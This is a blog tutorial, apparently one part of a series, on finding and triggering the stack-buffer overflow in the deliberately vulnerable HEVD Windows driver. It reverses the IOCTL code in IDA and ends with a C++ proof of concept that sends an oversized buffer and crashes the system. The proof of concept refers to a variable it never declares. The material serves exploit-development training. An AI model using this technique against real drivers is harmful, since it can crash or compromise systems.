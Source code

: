 ```yaml
---
published: true
---
```

In the previous part we have seen how to install the vulnerable driver and setup the debugging environment , now it's time to find the bug , there is a plenty of vulnerability on HEVD , but in this tutorial we will focus on Stackoverflow.
## Finding the bug and bsoding the system
Here you'll find the relevent source for the stackoverflow vulnerability provided by [hacksys](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/master/Driver/StackOverflow.c) , they have done a great job by showing the vulnerability the safe way into processing  userbuffer .


```
NTSTATUS TriggerStackOverflow(IN PVOID UserBuffer, IN SIZE_T Size) {
    NTSTATUS Status = STATUS_SUCCESS;
    ULONG KernelBuffer[BUFFER_SIZE] = {0};
 
    PAGED_CODE();
 
    __try {
        // Verify if the buffer resides in user mode
        ProbeForRead(UserBuffer, sizeof(KernelBuffer), (ULONG)__alignof(KernelBuffer));
 
        DbgPrint("[+] UserBuffer: 0x%p\n", UserBuffer);
        DbgPrint("[+] UserBuffer Size: 0x%X\n", Size);
        DbgPrint("[+] KernelBuffer: 0x%p\n", &KernelBuffer);
        DbgPrint("[+] KernelBuffer Size: 0x%X\n", sizeof(KernelBuffer));
 
#ifdef SECURE
        // Secure Note: This is secure because the developer is passing a size
        // equal to size of KernelBuffer to RtlCopyMemory()/memcpy(). Hence,
        // there will be no overflow
        RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, sizeof(KernelBuffer));
#else
        DbgPrint("[+] Triggering Stack Overflow\n");
 
        // Vulnerability Note: This is a vanilla Stack based Overflow vulnerability
        // because the developer is passing the user supplied size directly to
        // RtlCopyMemory()/memcpy() without validating if the size is greater or
        // equal to the size of KernelBuffer
        RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, Size);
#endif
    }
    __except (EXCEPTION_EXECUTE_HANDLER) {
        Status = GetExceptionCode();
        DbgPrint("[-] Exception Code: 0x%X\n", Status);
    }
 
    return Status;
}

```
Like you can see in the secure mode
```
RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, sizeof(KernelBuffer));
```
the size of the copied Userbuffer is exactly the size of the Kernelbuffer

where in the vulnerable one 
```
RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, Size);

```
RtlCopyMemory use the size value passed on by the user , so if the user passe a size greater than the kernelbuffer size stackoverflow will occure ,and the system will crash .

### Understading how User land interact with kernel concerning Windows drivers

When we want communicate with a windows driver a user has to get a handle to the concerned driver in our case its HEVD by using the Windows API [CreateFile](https://msdn.microsoft.com/en-us/library/windows/desktop/aa363858(v=vs.85).aspx), this fucntion will return a handle to our lovely driver.

now things get's interesting once we got the handle we can speak to our driver using the followong windows API function
```
BOOL WINAPI DeviceIoControl(
  _In_        HANDLE       hDevice,
  _In_        DWORD        dwIoControlCode,
  _In_opt_    LPVOID       lpInBuffer,
  _In_        DWORD        nInBufferSize,
  _Out_opt_   LPVOID       lpOutBuffer,
  _In_        DWORD        nOutBufferSize,
  _Out_opt_   LPDWORD      lpBytesReturned,
  _Inout_opt_ LPOVERLAPPED lpOverlapped
);
```
the seconde parameter (dwIoControlCode) is DWORD IOCTL code for the function that we are going to send our buffer to , since we want to send our bad buffer to the  stackoverflow vulnerable function, we need to find the fucntion IOCTL code or we are dommed .
there are severale methods to find those codes ,but the one i prefere the most and widely used is by reversing the driver using IDA and finding the IrpDeviceIoCtlHandler wich contain all the functions IOCTL codes .

the IrpDeviceIoCtlHandler IDA graphe overwiew look like this 

![ida1.JPG]({{site.baseurl}}/images/ida1.JPG)


Looking to the left you will find a IOCTL **222003h** that if is the same as the one provided by the user it will take us the the vulnerable function 

![ioctl.JPG]({{site.baseurl}}/images/ioctl.JPG)

![stackoverflow.JPG]({{site.baseurl}}/images/stackoverflow.JPG)

Great !

the called function  is TriggerStackOverflow

![vulnerablefunc.JPG]({{site.baseurl}}/images/vulnerablefunc.JPG)

you'll see that the kernel buffer length passed to ProbeForRead function is 800h , so if we send more than that size we will get BSOD .

let's verify that by writing this simple C++ code
```
#include "stdafx.h"
#include "windows.h"

int main()
{

	HANDLE hDevice = NULL;

	LPCWSTR DeviceName = TEXT("\\\\.\\HacksysExtremeVulnerableDriver");
    
//Obtaining a handle to the device 

	hDevice = CreateFile(DeviceName, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED, NULL);



	if (hDevice == INVALID_HANDLE_VALUE) {

		printf("We could't get a valid handle");

		return -1;

	}

	// Buffer that will be sent to the driver

	char  buffer[2056];
// sending buffer filled with A's 
	memset(buffer, 0x41, 2056);


	BOOL deviceioctl = DeviceIoControl(hDevice, 0x222003, buffer, 2056, NULL, 0, &returnedbytes, NULL);

	if (deviceioctl == 0) {

		printf("we couldn't send Device Control");

		CloseHandle(hDevice);

		return -1;

	      }
          
          return 0 ;
    }
```